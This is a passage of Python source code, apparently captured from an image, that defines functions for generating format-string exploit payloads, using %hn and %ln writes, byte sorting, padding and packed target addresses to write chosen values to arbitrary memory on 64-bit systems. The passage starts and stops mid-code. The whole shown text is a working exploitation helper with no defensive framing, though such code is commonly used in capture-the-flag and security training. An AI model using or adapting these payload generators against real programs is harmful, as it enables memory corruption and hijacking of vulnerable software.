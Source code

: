 ```python
            buf += b'%' + str(position + val_index).encode() + b'$hn'
        prefix_string_size = val
        value_bytes[val_index] = b'\xffffffff'  # Invalidate byte, to handle duplications

    buf += b'B' * (8 - ((rsp_to_format_offset + len(buf)) % 8))

    return buf


def gen_multi_write_format_string(rsp_to_format_offset, position, values, prefix_string_size):
    addrs_count = len(values)

    buf = b''
    # First trick - trigger a write of 0 (or short prefix string), of length 8 bytes. That would clear most MSBs.
    for i in range(addrs_count):
        buf += b'%' + str(position + i * 4).encode() + b'$ln'

    value_bytes = []
    for value in values:
        value_bytes += list(struct.unpack('<HHHH', struct.pack('<Q', value)))
    value_bytes_sorted = sorted(value_bytes)

    for val in value_bytes_sorted:
        if val == 0:
            continue
        val_index = value_bytes.index(val)
        val_address_index = int(val_index / 4)
       
        if (val != prefix_string_size):  # Handle duplication, no need to write more bytes
            buf += b'%' + str(val - prefix_string_size).encode() + b'c'
        buf += b'%' + str(position + val_index).encode() + b'$hn'
        prefix_string_size = val
        value_bytes[val_index] = b'\xffffffff'  # Invalidate byte, to handle duplications

    buf += b'B' * (8 - ((rsp_to_format_offset + len(buf)) % 8))

    return buf


def write_addr_payload(rsp_to_format_offset, address, value, prefix_string_size, debug):
    # Notice: there's probably more elegant way to do this. 
    init_position = 6 + int(rsp_to_format_offset / 8)
    buf = gen_write_format_string(rsp_to_format_offset, init_position, value, prefix_string_size, debug)

    position = 6 + int((rsp_to_format_offset + len(buf)) / 8)
    buf = gen_write_format_string(rsp_to_format_offset, position, value, prefix_string_size, debug)

    buf += struct.pack('<Q', address)
    buf += struct.pack('<Q', address + 2)
    buf += struct.pack('<Q', address + 4)
    buf += struct.pack('<Q', address + 6) 
    
    if debug:
        print(f'Generated write buf:{buf}')
    
    return buf


def write_addrs_payload(rsp_to_format_offset, addresses, values, prefix_string_size):
    # Notice: there's probably more elegant way to do this. 
    init_position = 6 + int(rsp_to_format_offset / 8)
```